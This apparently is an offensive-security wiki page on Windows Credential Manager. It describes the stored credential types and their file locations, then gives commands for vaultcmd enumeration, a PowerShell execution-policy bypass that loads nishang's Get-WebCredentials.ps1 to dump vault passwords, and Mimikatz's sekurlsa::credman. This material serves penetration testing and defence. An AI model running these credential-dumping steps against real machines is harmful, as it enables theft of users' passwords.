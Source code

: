 ## Theory
Windows Credential Manager is a built-in feature that securely stores sensitive login information for websites, applications, and networks. It houses login credentials such as usernames, passwords, and web addresses. There are four distinct categories of stored credentials:

- Web-based credentials: authentication details saved in web browsers (or other applications)
- Windows-specific credentials: authentication data such as NTLM or Kerberos
- Generic credentials: fundamental authentication data, such as clear-text usernames and passwords
- Certificate-based credentials: comprehensive information based on certificates
### Credential Manager Storage Location
| **Type**                            | **Path**                                                     |
| ----------------------------------- | ------------------------------------------------------------ |
| **Credential Store Files**          | `C:\Users\<username>\AppData\Local\Microsoft\Credentials\`   |
| **Credential Metadata**             | `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\` |
| **Credential Vault (GUID folders)** | `C:\ProgramData\Microsoft\Vault\`                            |

- The files in these directories have random-looking names (like {5fbc...}.cred) and are not human-readable.

- These are encrypted using DPAPI (Data Protection API) and are tied to the user's Windows logon credentials.
## Exploit
From Windows systems, vaultcmd.exe can be used to enumerate, check and list Microsoft Credentials. However, this tool does not allow to see clear text passwords as it is an official, native, Windows program.
```bash
#enumerate current Windows safes available
vaultcmd /list

#Check for credentials stored in the vault
VaultCmd /listproperties:"$coffre_name"

#more information about the Vault 
VaultCmd /listcreds:"$coffre_name"
```
The vault can be dumped in with [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1) (PowerShell).
```bash
powershell -ex bypass

Import-Module C:\Get-WebCredentials.ps1

Get-WebCredentials
```
Alternatively, Mimkatz (C) can be used for that purpose, with `sekurlsa::credman`.

